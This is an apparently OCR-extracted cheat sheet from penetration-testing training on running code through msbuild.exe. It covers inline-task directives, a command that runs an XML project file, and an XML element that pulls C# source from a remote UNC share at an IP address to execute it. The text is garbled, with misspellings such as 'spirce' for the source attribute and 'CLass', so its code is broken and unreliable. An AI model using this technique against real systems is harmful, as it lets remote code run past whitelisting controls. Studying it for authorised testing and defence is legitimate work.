 # MsBuild
## Required Directives and Execute Method Override
```C#
using Microsoft.Build.Framework;
using Microsoft.Build.Utilities;
public override bool Execute()
```
## Run Executable
```cmd
msbuild.exe C:\users\sec560\Desktop\sample.xml
```
## Remote Code
```xml
<Code Type="CLass" Language="cs" spirce="\\11.22.33.44\webdac\calc.cs">
```